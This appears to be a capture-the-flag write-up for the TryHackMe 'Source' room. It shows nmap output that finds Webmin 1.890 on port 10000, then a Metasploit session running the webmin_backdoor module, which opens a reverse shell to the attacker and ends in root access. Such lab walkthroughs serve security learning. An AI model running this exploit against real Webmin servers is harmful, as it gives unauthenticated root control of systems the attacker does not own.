

# [Source](https://tryhackme.com/room/source)

First order of business, `nmap`

```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Initial `nmap` scan only shows port 22 with SSH which doesn't give us much, so I tried adding `source.thm` to `/etc/hosts` and scanned that.

```
# Nmap 7.91 scan initiated Mon May 31 18:33:07 2021 as: nmap -vvv -p 22,10000 -sCV -oA init 10.10.155.73
Nmap scan report for source.thm (10.10.155.73)
Host is up, received conn-refused (0.27s latency).
Scanned at 2021-05-31 18:33:08 +07 for 39s

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 5B30B4C65BE690582037CDE5EA4149FF
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: MiniServ/1.890
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 31 18:33:47 2021 -- 1 IP address (1 host up) scanned in 39.34 seconds
```

This reveals a web server on port 10000! Going to `http://source.thm:10000` tells us to use `https://`, and the page `http://source.thm:10000/` shows a "webmin" service.



There's no clue to be found around the page and webmin doesn't have weak default credentials to be used.

So I fired up `msfconsole` and searched `webmin` which returns a backdoor payload, `exploit/linux/http/webmin_backdoor` which doesn't require authentication so I ran that and got a root shell!

```
msf6 exploit(linux/http/webmin_backdoor) > set rhosts source.thm
rhosts => source.thm
msf6 exploit(linux/http/webmin_backdoor) > set lhost tun0
lhost => 10.9.22.62
msf6 exploit(linux/http/webmin_backdoor) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf6 exploit(linux/http/webmin_backdoor) > set rport 10000
rport => 10000
msf6 exploit(linux/http/webmin_backdoor) > run

id
uid=0(root) gid=0(root) groups=0(root)
```
